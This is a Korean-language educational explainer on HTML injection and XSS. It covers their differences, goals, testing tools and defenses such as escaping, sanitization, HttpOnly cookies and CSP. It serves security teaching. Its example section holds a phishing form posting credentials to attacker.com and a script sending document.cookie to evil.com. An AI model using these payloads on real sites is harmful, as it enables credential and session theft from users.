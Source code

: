 # 🛡️ HTML 인젝션 & XSS (Cross-Site Scripting)

HTML 인젝션과 XSS는 **사용자 입력을 웹 페이지에 그대로 출력**할 때 발생하는 **클라이언트 측 취약점**입니다. 공격자는 HTML이나 JavaScript 코드를 삽입하여 **페이지를 조작하거나 악성 스크립트를 실행**할 수 있습니다.

---

## 📌 차이점 요약

| 구분         | HTML 인젝션                              | XSS (Cross-Site Scripting)                       |
|--------------|-------------------------------------------|--------------------------------------------------|
| 공격 코드    | HTML 태그                                 | JavaScript 코드                                  |
| 주된 영향    | UI 위조, 피싱 폼 생성                    | 스크립트 실행, 세션 탈취, 계정 가로채기         |
| 위험도       | 중간                                      | 높음                                             |
| 실행 위치    | HTML 렌더링 엔진                          | JavaScript 엔진                                  |
| 예시         | `<h1>해킹됨</h1>`                         | `<script>alert(1)</script>`                      |

---

## 🎯 공격 목적

- UI 조작 및 피싱 유도
- 세션 쿠키 및 인증 정보 탈취
- 악성 스크립트 실행 통한 브라우저 내 제어
- 내부 관리자 권한 획득 시도

---

## 🔧 사용 도구

- **Burp Suite** – HTTP 요청 가로채기 및 조작
- **OWASP ZAP** – 자동화된 웹 취약점 진단 도구
- **Dalfox / XSStrike** – XSS 자동 진단 도구
- **브라우저 개발자 도구** – DOM 수정 및 실행 확인

---

## 💥 공격 예시

### HTML 인젝션

<pre>
&lt;h1&gt;이 페이지는 해킹되었습니다&lt;/h1&gt;
&lt;form action="https://attacker.com/phish" method="POST"&gt;
  &lt;input type="text" name="id"&gt;
  &lt;input type="password" name="pw"&gt;
  &lt;button type="submit"&gt;로그인&lt;/button&gt;
&lt;/form&gt;
</pre>

### XSS

<pre>
&lt;script&gt;fetch('https://evil.com?c=' + document.cookie)&lt;/script&gt;
&lt;img src="x" onerror="alert('XSS 발생!')"&gt;
</pre>

---

## ⚠️ 보안 위험 및 ✅ 대응 방안

| ⚠️ 보안 위험                                                        | ✅ 대응 방안                                                                 |
|--------------------------------------------------------------------|------------------------------------------------------------------------------|
| 사용자 계정 탈취 및 인증 우회                                       | 입력값 검증 및 출력 이스케이프 처리 (HTML/JS 특수문자 필터링)              |
| 피싱 폼 삽입 및 UI 위조                                             | 화이트리스트 기반 필터링 및 DOM Sanitization 적용                           |
| 세션 쿠키 및 민감 정보 탈취                                         | HttpOnly / Secure / SameSite 속성 적용한 쿠키 사용                          |
| 외부 악성 스크립트 삽입                                            | Content-Security-Policy (CSP) 헤더 설정                                     |
| DOM 변조 또는 이벤트 훅킹                                           | 출력 시 맥락(Context)에 따른 적절한 이스케이프                             |
| 사용자 에이전트를 통한 리플렉션 기반 XSS 유도                       | 보안 헤더 적용 (`X-XSS-Protection`, `X-Content-Type-Options`) 등 적용       |

---

> 🔐 **TIP**: `"입력 시 검증 → 저장 시 정제 → 출력 시 이스케이프"`의 3단계 보안 원칙을 항상 기억하세요.
